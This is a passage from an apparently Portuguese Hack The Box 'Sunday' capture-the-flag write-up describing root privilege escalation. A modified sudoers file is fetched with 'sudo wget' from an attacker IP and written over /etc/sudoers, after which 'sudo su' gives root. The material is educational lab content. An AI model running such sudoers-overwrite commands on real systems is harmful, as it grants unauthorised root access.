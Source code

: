 2º Passo é alterar o sudoers baixado para dar permissão total para o Sammy

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sunday/S_sud1.png)

3º Passo é colocar novamente no servidor o arquivo /etc/sudoers comprometido

> sudo wget 10.10.16.119/sudoers --output-document=/etc/sudoers

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sunday/S_sud2.png)

4º Logamos como root `sudo su`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sunday/S_sud3.png)

## Pegamos as flags de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sunday/S_user.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-sunday/S_root.png)
